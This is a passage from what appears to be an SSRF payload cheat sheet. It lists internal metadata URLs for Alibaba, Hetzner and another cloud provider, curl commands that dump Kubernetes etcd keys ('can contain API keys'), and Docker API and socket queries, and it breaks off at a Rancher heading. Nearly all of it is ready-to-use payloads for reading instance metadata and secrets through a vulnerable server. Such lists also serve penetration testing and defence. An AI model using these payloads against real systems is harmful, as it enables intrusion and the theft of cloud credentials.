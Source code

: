 ```powershell
http://192.0.0.192/latest/
http://192.0.0.192/latest/user-data/
http://192.0.0.192/latest/meta-data/
http://192.0.0.192/latest/attributes/
```

### SSRF URL for Alibaba

```powershell
http://100.100.100.200/latest/meta-data/
http://100.100.100.200/latest/meta-data/instance-id
http://100.100.100.200/latest/meta-data/image-id
```

### SSRF URL for Hetzner Cloud

```powershell
http://169.254.169.254/hetzner/v1/metadata
http://169.254.169.254/hetzner/v1/metadata/hostname
http://169.254.169.254/hetzner/v1/metadata/instance-id
http://169.254.169.254/hetzner/v1/metadata/public-ipv4
http://169.254.169.254/hetzner/v1/metadata/private-networks
http://169.254.169.254/hetzner/v1/metadata/availability-zone
http://169.254.169.254/hetzner/v1/metadata/region
```

### SSRF URL for Kubernetes ETCD

Can contain API keys and internal ip and ports

```powershell
curl -L http://127.0.0.1:2379/version
curl http://127.0.0.1:2379/v2/keys/?recursive=true
```

### SSRF URL for Docker

```powershell
http://127.0.0.1:2375/v1.24/containers/json

Simple example
docker run -ti -v /var/run/docker.sock:/var/run/docker.sock bash
bash-4.4# curl --unix-socket /var/run/docker.sock http://foo/containers/json
bash-4.4# curl --unix-socket /var/run/docker.sock http://foo/images/json
```

More info:

- Daemon socket option: https://docs.docker.com/engine/reference/commandline/dockerd/#daemon-socket-option
- Docker Engine API: https://docs.docker.com/engine/api/latest/

### SSRF URL for Rancher
